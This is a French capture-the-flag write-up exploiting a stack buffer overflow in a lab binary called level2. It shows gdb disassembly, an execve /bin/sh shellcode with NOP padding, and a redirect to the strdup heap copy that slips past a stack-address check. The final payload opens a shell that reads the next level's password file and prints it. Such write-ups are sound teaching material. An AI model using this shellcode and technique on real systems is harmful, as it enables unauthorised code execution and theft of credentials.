 # Level2

On observe un exécutable à la racine : `level2`

```shell
$ ./level2
Hello World
Hello World

$ python -c 'print "A"*100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level2`

```shell
$ scp -P 4242 -r level2@192.168.56.102:/home/user/level2/level2 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level2
```

_resultat sauvegardé dans [source.md](source.md)_

Nous avons `76(src) + 4(EBP) = 80` de disponible

Ce qui nous laisse assez de place pour effectuer un `Buffer Overflow`

sachant que le shellcode fait `45` caracteres, il nous reste `80 - 45 = 35`

On se retrouve avec

```shell
$ python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'
```

Mais pour l'instant nous n'avons pas l'EIP qui pointe vers l'un des `NOP` (`\x90`) et ne commençant pas par `0xb` car notre shellcode est stocké sur la stack, ce qui valide la condition `eax == 0xb0000000` après le `AND`.

On va se servir du `strdup(&src)` qui copie notre chaîne de caractères en mémoire mais cette fois sur la `heap`.

On regarde donc le retour de `strdup` pour trouver l'adresse vers laquelle pointer.

```shell
$ gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *p+105
Breakpoint 1 at 0x804853d
(gdb) run <<< $(python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
...
Breakpoint 1, 0x0804853d in p ()
(gdb) i r eax
eax            0x804a008    134520840
```

Enfin nous pouvons ajouter l'adresse de retour du `strdup` qui pointe sur notre string mais pas sur la stack pour contourner le `if`

**Ne pas oublier d'inverser l'adresse** `0x804a008 => "\x08\xa0\x04\x08"`

```shell
$ (python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08"'; cat ) | ./level2
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
Ctrl+D
```
